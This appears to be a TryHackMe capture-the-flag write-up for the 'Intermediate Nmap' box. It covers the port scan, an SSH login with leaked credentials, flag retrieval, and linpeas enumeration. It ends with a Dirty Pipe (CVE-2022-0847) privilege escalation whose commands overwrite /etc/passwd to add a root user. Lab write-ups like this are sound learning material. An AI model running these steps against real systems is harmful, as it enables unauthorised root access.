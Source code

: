 # write-up - Intermediate-Nmap
The website tryhackme is a ctf website. It proposes us some boxes to attack and to get flag out of it.

The challenge called Intermediate Nmap is an easy and short challenge (can be done in less than five minute) but we can still learn from it.

In this write up I am gonna go further and get the PE to root.

## Scanning
The scanning will be done with nmap (yes 4 real).

The parameters of nmap will be
```
-A -p- <ip>
```
-A = scan all the versions, will be very help full

-p-= try all the ports (why u may ask, “is listening in the high port” the box says)

Here is the output of this command

![image](https://user-images.githubusercontent.com/48420953/191597272-b581d8a9-5a44-4dcd-8cc4-1900b8e0d8ee.png)

We can already see a user and a password. (Have I already told u, it is an easy and short box).

We can also see that the ssh is the only opened port and X11 belongs to ssh(graphical)

## Connect into the machine

Let’s try to connect to the machine with ssh
```
ssh ubuntu@10.10.29.157 -p 22
```
The pw is required

And we are in

![image](https://user-images.githubusercontent.com/48420953/191597765-9d037880-2fc7-4bc4-8de2-a77cba9e0786.png)

## Finding the Flag

So now, let’s go to the / of the machine and let’s find where the flag is.
```
cd
```
We can go in the home dir and ls to see all the users.
```
cd home
ls
```

it will return us this

![image](https://user-images.githubusercontent.com/48420953/191598281-bcc0953e-b28d-42e6-aaf5-f0b2eb8694e8.png)

Let’s go in user and ls, we will find flag.txt, let’s cat it

![image](https://user-images.githubusercontent.com/48420953/191598440-9cf136b1-2838-4a8c-8b8a-e80d1f9ca8f0.png)

And we have the working flag.

But this challenge is so short that I need at least to get the PE.

## Getting the PE

We gonna scp [linpeas](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) in the ubuntu’s user dir.

```
scp linpeas.sh ubuntu@<ip>:/home/ubuntu
```

It is done, get back in the ubuntu dir
```
cd /home/ubuntu
```

Give the execution properties to the linpeas script
```
chmod +x linpeas.sh
```

and execute the script

```
./linpeas.sh
```

We can already see a CVE

![image](https://user-images.githubusercontent.com/48420953/191599448-22e10f01-3244-48c6-a03f-cf5556b46628.png)

The [CVE-2022-0847](https://github.com/Al1ex/CVE-2022-0847) is a PE CVE

We just have to compilate the c script and execute it in the machine.

First we scp the script in the ubuntu's dir.

```
scp CVE-2022-0847.c ubuntu@<ip>:/home/ubuntu
```

In the Machine, we must compilate it
```
gcc CVE-2022-0847.c -o cve
```

Now let's execute it
```
./cve /etc/passwd 1 ootz:
```

we just need to switch user to rootz and we are good
```
su rootz
whoami
```

here is the proof

![image](https://user-images.githubusercontent.com/48420953/191600373-d994a7e4-a497-4463-b0c3-097bfb479281.png)
